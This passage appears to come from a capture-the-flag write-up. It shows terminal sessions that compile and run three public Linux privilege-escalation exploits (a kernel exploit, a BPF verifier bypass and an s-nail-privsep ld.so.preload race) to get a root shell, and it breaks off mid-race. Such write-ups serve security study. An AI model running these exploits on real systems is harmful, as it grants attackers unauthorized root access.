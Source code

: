     
    
    help@help:/dev/shm$ gcc -o a 44298.c 
    help@help:/dev/shm$ ./a
    task_struct = ffff880003596200
    uidptr = ffff880003cfcc04
    spawning root shell
    root@help:/dev/shm# id
    uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
    

The second works as well:

    
    
    help@help:/dev/shm$ gcc -o a 45010.c 
    help@help:/dev/shm$ ./a
    [.] 
    [.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
    [.] 
    [.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
    [.] 
    [*] creating bpf map
    [*] sneaking evil bpf past the verifier
    [*] creating socketpair()
    [*] attaching bpf backdoor to socket
    [*] skbuff => ffff8800050ecb00
    [*] Leaking sock struct from ffff88003b3e9000
    [*] Sock->sk_rcvtimeo at offset 472
    [*] Cred structure at ffff88000898bbc0
    [*] UID from cred structure: 1000, matches the current: 1000
    [*] hammering cred structure at ffff88000898bbc0
    [*] credentials patched, launching shell...
    # id
    uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
    

The third does the compilation in the shell script:

    
    
    help@help:/dev/shm$ ./a.sh                                  
    [~] Found privsep: /usr/lib/s-nail/s-nail-privsep                                                                             
    [.] Compiling /var/tmp/.snail.so.c ...                      
    [.] Compiling /var/tmp/.sh.c ...                            
    [.] Compiling /var/tmp/.privget.c ...                               
    [.] Adding /var/tmp/.snail.so to /etc/ld.so.preload ... 
    [=] s-nail-privsep local root by @wapiflapi               
    [.] Started flood in /etc/ld.so.preload                     
    [.] Started race with /usr/lib/s-nail/s-nail-privsep     
    [.] This could take a while...                            
    [.] Race #1 of 1000 ...                               
    This is a helper program of "s-nail" (in /usr/bin).     
      It is capable of gaining more privileges than "s-nail"              
      and will be used to create lock files.                  
      It's sole purpose is outsourcing of high privileges into                                                                    
      fewest lines of code in order to reduce attack surface.                                      
      It cannot be run by itself.                               
    [.] Race #2 of 1000 ...
    ...[snip]...
    [.] Race #296 of 1000 ...
    This is a helper program of "s-nail" (in /usr/bin).
      It is capable of gaining more privileges than "s-nail"
      and will be used to create lock files.
      It's sole purpose is outsourcing of high privileges into